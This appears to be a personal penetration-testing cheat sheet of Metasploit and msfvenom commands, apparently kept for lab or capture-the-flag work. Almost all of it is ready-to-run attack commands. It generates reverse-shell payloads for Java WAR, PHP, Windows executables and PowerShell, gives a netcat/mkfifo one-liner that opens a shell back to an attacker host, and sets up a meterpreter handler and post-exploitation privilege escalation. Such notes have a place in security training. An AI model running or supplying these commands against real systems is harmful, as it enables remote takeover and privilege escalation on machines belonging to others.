 
MSFconsole
---
```
search $TARGET_SERVICE
use X
options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```bash
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```bash
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```bash
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe -o shell.exe
#powershell rev shell generator
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TARGET_IP$ LPORT=4444 -f psh -o meterpreter-64.ps1
```

Non-staged PHP reverse shell, netcat compatible

#msfvenom #revshell #php-shell

```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -f raw -o shell.pHP
```

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=tun0 LPORT=443 -f exe -o shell.exe

```
the forward slash indicates that is a "staged" payload, the one with the underscore means it’s non-staged and can be handled by program like nc

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```

 ```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $LOCAL_IP;set LPORT 4444;run;" 
```